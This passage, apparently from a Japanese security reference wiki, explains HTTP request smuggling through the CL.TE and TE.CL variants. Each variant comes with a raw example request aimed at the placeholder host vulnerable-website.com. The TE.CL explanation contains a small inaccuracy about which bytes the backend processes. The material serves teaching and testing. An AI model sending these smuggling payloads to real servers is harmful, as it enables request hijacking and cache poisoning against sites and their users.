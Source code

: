HTTPリクエストスムーギング攻撃は、フロントエンドとバックエンドサーバーが`Content-Length`（CL）および`Transfer-Encoding`（TE）ヘッダーを解釈する際の不一致を利用して、あいまいなリクエストを送信することによって作成されます。これらの攻撃は、主に**CL.TE**、**TE.CL**、および**TE.TE**として異なる形で現れます。各タイプは、フロントエンドとバックエンドサーバーがこれらのヘッダーを優先する方法のユニークな組み合わせを表します。脆弱性は、サーバーが同じリクエストを異なる方法で処理することから生じ、予期しない、そして潜在的に悪意のある結果を引き起こします。

### 脆弱性タイプの基本的な例

![https://twitter.com/SpiderSec/status/1200413390339887104?ref\_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1200413390339887104\&ref\_url=https%3A%2F%2Ftwitter.com%2FSpiderSec%2Fstatus%2F1200413390339887104](../../.gitbook/assets/EKi5edAUUAAIPIK.jpg)

{% hint style="info" %}
前の表にTE.0技術を追加する必要があります。CL.0技術のように、Transfer Encodingを使用します。
{% endhint %}

#### CL.TE脆弱性（フロントエンドで使用されるContent-Length、バックエンドで使用されるTransfer-Encoding）

* **フロントエンド (CL):** `Content-Length`ヘッダーに基づいてリクエストを処理します。
* **バックエンド (TE):** `Transfer-Encoding`ヘッダーに基づいてリクエストを処理します。
* **攻撃シナリオ:**
* 攻撃者は、`Content-Length`ヘッダーの値が実際のコンテンツ長と一致しないリクエストを送信します。
* フロントエンドサーバーは、`Content-Length`の値に基づいてリクエスト全体をバックエンドに転送します。
* バックエンドサーバーは、`Transfer-Encoding: chunked`ヘッダーによりリクエストをチャンクとして処理し、残りのデータを別の後続リクエストとして解釈します。
*   **例:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

#### TE.CL脆弱性（フロントエンドで使用されるTransfer-Encoding、バックエンドで使用されるContent-Length）

* **フロントエンド (TE):** `Transfer-Encoding`ヘッダーに基づいてリクエストを処理します。
* **バックエンド (CL):** `Content-Length`ヘッダーに基づいてリクエストを処理します。
* **攻撃シナリオ:**
* 攻撃者は、チャンクサイズ（`7b`）と実際のコンテンツ長（`Content-Length: 4`）が一致しないチャンク化されたリクエストを送信します。
* フロントエンドサーバーは、`Transfer-Encoding`を尊重し、リクエスト全体をバックエンドに転送します。
* バックエンドサーバーは、`Content-Length`を尊重し、リクエストの最初の部分（`7b`バイト）だけを処理し、残りを意図しない後続リクエストの一部として残します。
*   **例:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```

